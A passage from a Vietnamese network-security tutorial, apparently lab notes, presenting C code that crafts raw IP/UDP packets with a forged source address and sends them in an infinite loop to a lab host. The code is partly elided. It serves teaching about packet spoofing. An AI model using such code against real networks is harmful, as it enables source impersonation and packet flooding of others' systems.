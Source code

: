 **2.2A. Chương trình spoofing cơ bản**

Chúng ta sẽ dựa theo trình tự trên để tạo ra chương trình spoofing cơ bản: tạo raw packet -> set thuộc tính -> gửi đi. Đoạn code chương trình spoof cơ bản như sau:

```cpp=
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

struct ipheader {...};

struct udpheader{...};

void send_raw_ip_packet(struct ipheader* ip) {
	struct sockaddr_in dest_info;
	int enable = 1;
	int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

	setsockopt(sock, IPPROTO_IP, IP_HDRINCL, &enable, sizeof(enable));

	dest_info.sin_family = AF_INET;
	dest_info.sin_addr = ip->iph_destip;

	sendto(sock, ip, ntohs(ip->iph_len),0, (struct sockaddr *)&dest_info, sizeof(dest_info));
	close(sock);
}

int main() {
   char buffer[1500];

   memset(buffer, 0, 1500);
   struct ipheader *ip = (struct ipheader *) buffer;
   struct udpheader *udp = (struct udpheader *) (buffer +
                                          sizeof(struct ipheader));
    
   char *data = buffer + sizeof(struct ipheader) +
                         sizeof(struct udpheader);
   const char *msg = "This is a spoofing attack!\n";
   int data_len = strlen(msg);
   strncpy (data, msg, data_len);

   udp->udp_sport = htons(12345);
   udp->udp_dport = htons(9090);
   udp->udp_ulen = htons(sizeof(struct udpheader) + data_len);
   udp->udp_sum =  0;
   ip->iph_ver = 4;
   ip->iph_ihl = 5;
   ip->iph_ttl = 20;
   ip->iph_sourceip.s_addr = inet_addr("1.2.3.4");
   ip->iph_destip.s_addr = inet_addr("10.9.0.6");
   ip->iph_protocol = IPPROTO_UDP;
   ip->iph_len = htons(sizeof(struct ipheader) +
                       sizeof(struct udpheader) + data_len);

   while(1){
        printf("Spoofing...\n");
        send_raw_ip_packet (ip); 
        printf("Sent 1 packet!\n");
   }

   return 0;
```